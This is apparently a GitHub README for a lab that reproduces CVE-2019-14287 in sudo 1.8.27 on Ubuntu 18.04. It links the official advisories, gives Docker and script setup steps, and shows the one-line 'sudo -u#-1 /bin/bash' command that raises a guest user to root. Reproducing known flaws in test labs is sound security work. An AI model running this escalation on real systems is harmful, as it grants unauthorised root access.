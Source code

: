 # CVE-2019-14287

## About
<https://nvd.nist.gov/vuln/detail/CVE-2019-14287>


## PoC
<https://www.sudo.ws/alerts/minus_1_uid.html>


## Environment used

* Ubuntu 18.04.4 LTS
* [Sudo 1.8.27](https://www.sudo.ws/dist/sudo-1.8.27.tar.gz)


## Reproduction

* Server
    - Docker version:
        ```shell script
        bash Docker\ version/start.sh
        bash Docker\ version/stop.sh  
        ```
      
    - Script version:
        ```shell script
        cd Script_version && sudo bash installation.sh
        ```

* Terminal:
    - Docker version:
        ```shell script
        ssh <Server IP> -l guest -p 8022
        /usr/local/bin/sudo -u#-1 /bin/bash 
        ```
    - Script version:
        ```shell script
        ssh <Server IP> -l guest -p 22
        /usr/local/bin/sudo -u#-1 /bin/bash 
        ```  
    The result is the escalation of user *guest* to *root*.

